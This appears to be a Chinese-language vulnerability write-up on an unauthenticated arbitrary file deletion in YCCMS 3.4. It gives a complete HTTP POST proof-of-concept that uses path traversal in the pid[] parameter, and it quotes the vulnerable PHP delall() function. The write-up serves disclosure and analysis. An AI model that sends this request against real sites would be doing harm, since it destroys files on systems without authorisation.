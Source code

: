 YCCMS 3.4 任意文件删除
======================

一、漏洞简介
------------

二、漏洞影响
------------

YCCMS 3.4
---------

三、复现过程

    POST /admin/?a=pic&m=delall HTTP/1.1
    Host: www.0-sec.org:8082
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 89
    Origin: http://127.0.0.1:8082
    Connection: close
    Referer: http://127.0.0.1:8082/admin/?a=pic
    Upgrade-Insecure-Requests: 1

    pid%5B0%5D=../1.txt&chkall=on&send=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87t

只需要更改pid\[0\]即可在无登录条件下任意删除文件，删除根目录下的1.txt![3.png](./resource/YCCMS3.4任意文件删除/media/rId24.png)已经删除成功了![4.png](./resource/YCCMS3.4任意文件删除/media/rId25.png)其实这还是犯了一个最容易犯的错误，没有对传进来的路径进行过滤就拼接了目录，导致了任意文件删除漏洞的产生根据url定位到相关函数位置,位于/controller/PicAction.class.php

    public function delall(){
            if(isset($_POST['send'])){
                if(validate::isNullString($_POST['pid'])) tool::layer_alert('没有选择任何图片!','?a=pic',7);
                $_fileDir=ROOT_PATH.'/uploads/';
                foreach($_POST['pid'] as $_value){
                    $_filePath=$_fileDir.$_value;
                    if(!unlink($_filePath)){
                        tool::layer_alert('图片删除失败,请设权限为777!','?a=pic',7);
                    }else{
                        header('Location:?a=pic');
                    }
                }

            }

        }

对
pid传进来的值并没有进行过滤就进行了了路径的拼接，导致了路径穿越漏洞，触发任意文件删除漏洞

参考链接
--------

> https://xz.aliyun.com/t/7748\#toc-4

